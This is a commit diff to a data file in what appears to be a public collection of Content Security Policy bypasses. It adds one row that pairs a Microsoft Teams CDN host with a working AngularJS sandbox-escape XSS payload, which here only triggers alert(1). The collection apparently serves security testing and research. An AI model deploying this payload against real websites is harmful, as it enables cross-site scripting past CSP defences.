

Before and after one commit to rcbarnett/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update data.tsv

```diff
--- a/data.tsv
+++ b/data.tsv
+row 157: statics.teams.cdn.office.net <script src=https://statics.teams.cdn.office.net/hashed/0.2-angular-jquery.min-eee9041.js></script><div ng-app>{{x={"n":"".constructor.prototype};x["n"].charAt=[].join;$eval("x=alert(1)");}}</div>
-row 219: (empty)
```
